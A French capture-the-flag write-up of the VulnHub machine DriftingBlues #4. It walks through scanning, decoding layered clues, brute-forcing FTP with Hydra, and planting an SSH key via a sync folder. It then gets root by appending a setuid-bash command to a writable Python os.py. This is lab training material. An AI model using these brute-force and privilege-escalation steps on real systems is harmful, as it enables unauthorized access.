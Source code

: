 ```yaml
---
title: Solution du CTF DriftingBlues #4 de VulnHub
tags: [CTF, VulnHub]
---
```


Quatrième Dimension
-------------------

[Ce CTF](https://www.vulnhub.com/entry/driftingblues-4,661/), 4ème du nom est un boot2root décrit comme facile. Il a été créé par [tasiyanci](https://twitter.com/tasiyanci).  

```
Nmap scan report for 192.168.56.9 
Host is up (0.00028s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Le serveur ProFTPD ne fournit pas sa version et ne supporte pas les connexions anonymes. On verra si on peut l'utiliser plus tard.  

Sur la page web on peut lire *Under Construction, please stand by* mais en commentaire dans la source HTML se trouve un base 64. Le résultat contient lui même du base64. Pour réduire je met les différents résultats obtenus :  

```
go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==

tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=

i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=

/imfuckingmad.txt
```

Le dernier path correspond à un fichier sur le serveur web qui semble contenir du code [BrainFuck](https://en.wikipedia.org/wiki/Brainfuck). Une nouvelle fois [dcode.fr](https://www.dcode.fr/brainfuck-language) dispose d'un interpréteur. L'output obtenu est le suivant :  

```
man we are a tech company and still getting hacked??? what the shit??? enough is enough!!! 
#
##
--- snip ---
##
#

/iTiS3Cr3TbiTCh.png
```

Ce path correspond à une image d'un code QR. J'ai trouvé [ce décodeur en ligne](https://blog.qr4.nl/Online-QR-Code-Decoder.aspx) qui m'a craché le texte <https://i.imgur.com/a4JjS76.png>.  

Passons sur le caractère risqué de laisser une partie d'un CTF aux mains d'un site dont la survie n'est pas assurée... L'image contient le texte suivant :  

```
drifting blues tech confidental

dear:

luther
******
gary
hubert
clark
******

please fix our website soon
```

Gimme a S, Gimme a H,...
------------------------

Armé de ces noms d'utilisateurs on se dit qu'on pourrait bruteforcer le service SSH, mais non d'après Hydra :  

```
[ERROR] target ssh://192.168.56.9:22/ does not support password authentication (method reply 4)
```

C'est là que FTP entre en jeu. Je récupère la [probable wordlist](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords) *Top12Thousand-probable-v2.txt* et je l'utilise comme candidats de passwords pour THC-Hydra (il faut compter une bonne demi heure) :  

```
$ hydra -L users.txt -P Top12Thousand-probable-v2.txt ftp://192.168.56.9
--- snip ---
[21][ftp] host: 192.168.56.9   login: hubert   password: john316 
1 of 1 target successfully completed, 1 valid password found
```

Gotcha ! Une fois connecté sur le FTP je remarque un dossier *hubert* vide ainsi qu'un fichier *sync\_log* dont voici le contenu :  

```
sync completed at Thu 20 Jan 2022 07:06:01 AM CST
```

Si on attend un peu on remarque que la date indiquée est mise à jour.  

Le message indique qu'une synchronisation a lieu et comme le dossier correspond au nom d'utilisateur on peut imaginer que les fichiers que l'on pose seront copiés sous */home/hubert*.  

Ni une ni deux je crée un dossier .ssh puis je copie ma clé publique SSH sous le nom *authorized\_keys*. Ça fonctionne !  

```
$ ssh hubert@192.168.56.9 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
hubert@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

```

This is not a test of the emergency broadcast system, this is a real thing!
---------------------------------------------------------------------------

Dans le dossier de l'utilisateur se trouve un fichier Python :  

```
-rwxr-xr-x 1 root root 217 Jan  9  2021 emergency.py
```

Son contenu :  

```python
#!/usr/bin/python 

import os 

os.system('echo 1 >> /tmp/backdoor_testing') 

# template python script for backdoor purposes 
# i'm gonna leave it with loose permissions 
#  
--- snip ---
# 
# say africa without a's
```

Il y a bien un fichier */tmp/backdoor\_testing* appartenant à root et son timestamp change régulièrement, preuve qu'une tache planifiée exécute le script Python.  

Pour que l'exploitation fonctionne il faudrait pouvoir modifier le module *os* de Python et ça tombe bien :  

```
hubert@driftingblues:~$ find /usr/ -writable 2> /dev/null  
/usr/lib/python2.7/os.py
```

J'ai seulement ajouté cette ligne à la fin du fichier :  

```python
system("cp /bin/bash /tmp/g0tr00t; chmod 4755 /tmp/g0tr00t")
```

Ça fait le job :  

```
hubert@driftingblues:~$ /tmp/g0tr00t -p 
g0tr00t-5.0# cd /root 
g0tr00t-5.0# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Sous le capot
-------------

```
g0tr00t-5.0# tail -3 /var/spool/cron/crontabs/root
SHELL=/bin/bash
* * * * * bash /root/sync
* * * * * python /home/hubert/emergency.py
g0tr00t-5.0# cat /root/sync
#!/bin/bash

omega=$(date)
#sleep 69
rm -rf /home/*/.local /home/*/.bashrc /home/*/.bash_history /home/*/.profie
cp -R /var/driftingblues_ftp/hubert /home/
echo "" > /home/hubert/.bash_history
echo "" > /home/hubert/.bashrc
chmod -R 700 /home/hubert
chown -R hubert:hubert /home/hubert
chown root:root /home/hubert/emergency.py
chmod 755 /home/hubert/emergency.py
echo "sync completed at $omega" > /var/driftingblues_ftp/sync_log
exit
```

That's it!

*Published January 20 2022 at 18:10*
